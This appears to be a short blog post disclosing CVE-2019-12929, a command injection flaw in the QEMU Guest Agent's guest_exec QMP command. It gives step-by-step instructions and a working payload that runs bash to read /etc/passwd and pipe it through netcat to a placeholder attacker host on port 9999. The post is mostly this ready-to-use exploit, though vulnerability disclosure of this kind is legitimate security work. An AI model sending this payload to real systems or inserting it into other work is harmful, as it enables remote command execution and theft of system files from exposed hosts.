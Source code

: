 ```yaml
---
layout: post
title: "[CVE-2019-12929] QEMU Guest Agent guest_exec Command Execution"
date: 2019-06-06
categories:
    - blog
keywords: "qemu, qemu-ga, guest_exec, command execution"
---
```


The QMP `guest_exec` command in QEMU 4.0.0 and earlier is prone to OS command injection, which allows the attacker to achieve code execution, denial of service, or information disclosure by sending a crafted QMP command to the listening server.

1st, execute the QEMU Guest Agent service<br>
2nd, open another console and setup a listener to port 9999<br>
3rd, connect to the target and enter the following commands:

```
{'execute':'guest-exec','arguments':{'path':'/bin/bash','arg': ['-c', 'cat /etc/passwd | nc <attacker_ip> 9999']}}
```